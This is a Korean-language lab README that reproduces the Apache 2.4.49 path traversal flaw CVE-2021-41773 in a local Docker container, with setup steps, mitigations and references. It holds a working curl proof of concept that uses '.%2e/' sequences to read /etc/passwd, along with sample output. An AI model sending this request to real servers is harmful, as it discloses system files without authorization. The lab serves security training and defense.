



# CVE-2021-41773 Apache HTTP Server Path Traversal

## 1. 취약점 요약

  항목          내용
  ------------- ----------------------------------
  CVE           CVE-2021-41773
  대상 제품     Apache HTTP Server
  영향 버전     2.4.49
  취약점 유형   Path Traversal / File Disclosure
  CWE           CWE-22
  CVSS v3.1     7.5 (High)

CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생한 경로 정규화(Path
Normalization) 오류로 인해 발생하는 Path Traversal 취약점이다. 특정
설정에서 공격자는 URL 인코딩된 `.%2e/` 문자열을 이용하여 웹 루트 밖의
파일을 읽을 수 있다.

> 본 실습은 Docker 컨테이너 내부에서 `/etc/passwd` 파일을 읽는 것까지만
> 재현하였다.

------------------------------------------------------------------------

## 2. 실습 환경

  구성             내용
  ---------------- ---------------------------------
  OS               Ubuntu (WSL2)
  Docker           Docker Desktop + Docker Compose
  Apache           2.4.49
  Host Port        8080
  Container Port   80

### 디렉터리 구조

``` text
CVE-2021-41773/
├── Dockerfile
├── docker-compose.yml
├── httpd.conf
├── README.md
└── images/
    ├── 01-compose-ps.png
    ├── 02-normal-response.png
    ├── 03-path-traversal.png
    └── 04-container-logs.png
```

------------------------------------------------------------------------

## 3. 실행 방법

``` bash
docker compose up -d --build
docker compose ps
```

정상 동작 확인

``` bash
curl http://localhost:8080/
```

예상 결과

``` html
<h1>CVE-2021-41773 vulnerable lab</h1>
```





------------------------------------------------------------------------

## 4. 취약점 재현(PoC)

``` bash
curl --path-as-is \
"http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

성공 시 예시

``` text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```



### 원리

    .%2e/  ->  ../

    /icons/.%2e/.%2e/.%2e/.%2e/etc/passwd
                    ↓
             /etc/passwd 접근

------------------------------------------------------------------------

## 5. 영향

-   시스템 파일 노출
-   애플리케이션 설정 파일 노출
-   민감한 정보 유출
-   CGI 환경에서는 추가 위험 가능

------------------------------------------------------------------------

## 6. 대응 방안

-   Apache 2.4.51 이상(또는 현재 지원되는 최신 버전)으로 업데이트
-   `<Directory /> Require all denied` 적용
-   불필요한 CGI 비활성화
-   경로 순회 문자열(`../`, `.%2e/`) 탐지 및 차단
-   접근 로그 모니터링

------------------------------------------------------------------------

## 7. 환경 종료

``` bash
docker compose down
```

이미지까지 삭제하려면

``` bash
docker compose down --rmi local
```

------------------------------------------------------------------------

## 8. 참고 자료

-   Apache HTTP Server Security Advisories:
    https://httpd.apache.org/security/vulnerabilities_24.html
-   NVD CVE-2021-41773: https://nvd.nist.gov/vuln/detail/CVE-2021-41773
-   Docker Official Image (httpd): https://hub.docker.com/\_/httpd

------------------------------------------------------------------------

## 9. 주의 사항

본 환경은 보안 교육과 실습을 위한 목적으로만 구성하였다. PoC는 본인이
관리하거나 명시적으로 허가받은 환경에서만 실행해야 한다.
